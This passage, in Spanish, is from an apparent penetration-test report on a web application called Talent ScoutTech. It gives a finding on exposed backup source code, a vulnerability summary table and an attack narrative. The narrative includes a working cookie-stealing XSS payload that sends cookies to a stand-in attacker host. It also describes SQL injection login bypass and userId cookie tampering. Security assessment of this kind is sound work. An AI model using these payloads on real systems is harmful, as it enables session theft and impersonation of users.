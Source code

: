 ### 7.7. INFO001: Exposición de Código Fuente
*   **Descripción:** Archivo `add_comment.php~` expone código fuente, facilitando la identificación de la vulnerabilidad SQL002.
*   **Impacto:** Reduce el esfuerzo del atacante para encontrar vulnerabilidades.
*   **Severidad:** **Baja** 🟩
*   **Recomendación:** No dejar archivos de backup (con extensiones como `~`, `.bak`, `.old`, etc.) en directorios accesibles por la web. Configurar el servidor web para no servir estos tipos de archivos o denegar su listado.

---

## 8. Resumen de Vulnerabilidades (Tabla)

| ID      | Vulnerabilidad Breve                                        | Tipo        | Gravedad | Explotada | CVE / CWE       |
| :------ | :---------------------------------------------------------- | :---------- | :------- | :-------- | :-------------- |
| SQL001  | Inyección SQL en Login                                      | SQLi        | Crítica  | Sí        | CWE-89          |
| SQL002  | SQLi y Control Acceso Roto en Añadir Comentario             | SQLi/AuthZ  | Crítica  | Sí        | CWE-89, CWE-284 |
| XSS001  | XSS Almacenado en Comentarios                               | XSS         | Alta     | Sí        | CWE-79          |
| XSS002  | XSS en Listados y Búsqueda                                  | XSS         | Media/Alta| Parcial   | CWE-79          |
| CSRF001 | CSRF vía XSS (Donación Simulada)                            | CSRF/XSS    | Media    | Sí (PoC)  | CWE-352, CWE-79 |
| BAC001  | Controles de Autenticación y Sesión Débiles                 | Auth/SessMgt| Alta     | Sí (Anál.)| CWE-287, CWE-384, CWE-522, CWE-613 |
| INFO001 | Exposición de Código Fuente (`add_comment.php~`)            | InfoExpo    | Baja     | N/A (Usado)| CWE-541         |

---

## 9. Narrativa de un Escenario de Ataque Potencial

1.  **Reconocimiento:** El atacante descubre el archivo `add_comment.php~` (INFO001), revelando el uso inseguro de `$_COOKIE['userId']`.
2.  **Bypass Login (SQL001):** El atacante usa una Inyección SQL en el formulario de login para obtener acceso como el usuario `luis` (credenciales `luis`/`1234` también podrían ser obtenidas por fuerza bruta o diccionario si la SQLi no fuera directa para bypass).
3.  **Inyectar XSS (XSS001):** Autenticado como `luis`, el atacante publica un comentario en un jugador popular con un payload XSS diseñado para robar cookies: `<script>new Image().src='http://atacante.com/log.php?c='+document.cookie;</script>`.
4.  **Robo de Sesión de Administrador:** Un administrador de Talent ScoutTech visualiza la página de comentarios del jugador infectado. Su navegador ejecuta el script XSS, enviando su cookie de sesión (incluyendo `PHPSESSID` y potencialmente otras como `user`, `userId`) al servidor del atacante.
5.  **Suplantación de Administrador:** El atacante toma la cookie de sesión del administrador y la usa en su propio navegador para suplantar al administrador dentro de Talent ScoutTech, obteniendo acceso a todas las funcionalidades administrativas.
6.  **Publicación Maliciosa como Otro Usuario (SQL002):** El atacante (ahora como administrador, o incluso desde su cuenta `luis` si no hubiera obtenido sesión de admin) decide publicar comentarios difamatorios. Modifica su propia cookie `userId` al ID de un usuario víctima específico y envía un nuevo comentario. Dicho comentario aparece como si lo hubiera publicado el usuario víctima, explotando el control de acceso roto en `add_comment.php`.
7.  **Ataque CSRF (Opcional, CSRF001):** Si el payload XSS del paso 3 fuera diferente, podría forzar al navegador del administrador a realizar acciones no deseadas dentro de Talent ScoutTech (ej. eliminar un jugador) o en un sitio externo si el administrador estuviera autenticado allí.
